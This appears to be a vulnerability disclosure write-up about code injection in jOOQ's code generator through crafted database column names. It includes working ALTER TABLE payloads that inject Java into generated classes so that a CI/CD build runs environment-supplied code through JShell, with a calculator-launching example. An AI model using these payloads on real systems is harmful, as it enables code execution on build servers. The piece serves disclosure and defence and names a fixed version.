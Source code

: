 # JOOQ Code injection

What is the code generation?
While optional, source code generation feature allows developers to increase productivity. Different tools like, jOOQ's [code generator](https://www.jooq.org/doc/latest/manual/code-generation/) takes your database schema and reverse-engineers it into a set of Java (Kotlin) classes modelling tables, records, sequences, POJOs, DAOs, stored procedures, user-defined types and many more. 

## How does it work?
Let's say you have database with test table: 

```sql
create table if not exists example ( "ID" bigint, "key" text, primary key ("ID"));
```

Code generator will connect to the database and produce following code, during code compilation, thanks to the maven plugin:

```java
public class Example extends TableImpl<ExampleRecord> {
    public static final Example EXAMPLE = new Example();
    public final TableField<ExampleRecord, Long> ID = createField(DSL.name("ID"), SQLDataType.BIGINT.nullable(false), this, "");
    public final TableField<ExampleRecord, String> KEY = createField(DSL.name("key"), SQLDataType.CLOB, this, "");
    // we will skip unnecessary parts ...
}
```

Now you can write code and don't worry about the schema modifications. For example, following code will grab all data from example table:

```java
package one.d4d;
import one.d4d.jooq.model.tables.Example;

public class App
{
    public static void main( String[] args )
    {
        try {
            String url = "jdbc:postgresql://localhost:5432/code";
            Connection conn = DriverManager.getConnection(url, "doge", "");
            DSLContext context = DSL.using(conn, SQLDialect.POSTGRES);
            Result<Record> rows = context.select()
                    .from(Example.EXAMPLE)
                    .fetch();
            System.out.println(rows.stream().findFirst());
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

Everything works as expected. Great! What can go wrong? - Meet the code injection! There are couple of places where code injection can be. Table name. Unfortunately, it is properly escaped by the library. Additionally, new table may not be included into configuration files. Another one is column's name. Hopefully, it was not escaped. Let's look at following query:

```sql
ALTER TABLE example
ADD COLUMN "1""),SQLDataType.BIT);String v=System.getenv(""CODE"");//" bool,
ADD COLUMN "2""),SQLDataType.BIT);org.jooq.DataType B=SQLDataType.BIT;//" bool,
ADD COLUMN "3""),B);Object o=jdk.jshell.JShell.create().eval(v);//" bool;
```

### Detailed explanation

The generated java code not properly escape `"` at the `DSL.name` property. Our exploit, first will close the string with `1")` after that we should properly pass all required parameter to the `createField` function. Please bear in mind that we have several constrants:
- Postgres and MySQL restrict column's name length up to 64 chars and there is no easy way to change that settings, except build executables from source code.
- Imports aren't allowed inside the class at Java, so we have to use full name of classes instead.

And although it looks quite complicated, there is a way to get around all these restrictions. Meet the `jdk.jshell.JShell#eval` function. It does exactly what we need: `Evaluate the input String, including definition and/or execution, if applicable.`. My exploit uses environment variable `CODE` to path payload into the CI/CD, but it doesn't required. You can simple add as much new columns as you want to store the payload at local variables. In my example, variable `CODE` launched Calc app on MacOS `Process process = Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");`. Let's take a quick look on generated code:

```java
/**
 * The column <code>public.example.1"),SQLDataType.BIT);String
 * v=System.getenv("CODE");//</code>.
 */
public final TableField<ExampleRecord, Boolean> _1_22_29_2cSQLDATATYPE_BIT_29_3bSTRING_V_3dSYSTEM_GETENV_28_22CODE_22_29_3b_2f_2f = createField(DSL.name("1"),SQLDataType.BIT);String v=System.getenv("CODE");//"), SQLDataType.BOOLEAN, this, "");

/**
 * The column <code>public.example.2"),SQLDataType.BIT);org.jooq.DataType
 * B=SQLDataType.BIT;//</code>.
 */
public final TableField<ExampleRecord, Boolean> _2_22_29_2cSQLDATATYPE_BIT_29_3bORG_JOOQ_DATATYPE_B_3dSQLDATATYPE_BIT_3b_2f_2f = createField(DSL.name("2"),SQLDataType.BIT);org.jooq.DataType B=SQLDataType.BIT;//"), SQLDataType.BOOLEAN, this, "");

/**
 * The column <code>public.example.3"),B);Object
 * o=jdk.jshell.JShell.create().eval(v);//</code>.
 */
public final TableField<ExampleRecord, Boolean> _3_22_29_2cB_29_3bOBJECT_O_3dJDK_JSHELL_JSHELL_CREATE_28_29_EVAL_28V_29_3b_2f_2f = createField(DSL.name("3"),B);Object o=jdk.jshell.JShell.create().eval(v);//"), SQLDataType.BOOLEAN, this, "");

```

5. Now, as soon as CI/CD will run the code, payload will read the environment variable `CODE` and execute it.

### Recommendations
Make sure that all user inputs are properly escaped. Additionally test user inputs, like table name, table comment, view name and command aren't vulnerable to the code injection attack.

### Notes

Fix available at 3.19.0 version. [Github issue](https://github.com/jOOQ/jOOQ/issues/15714)

### Acknowledgement

Thanks Lukas Eder and Data Geekery GmbH team for the coordination and bug fixing! 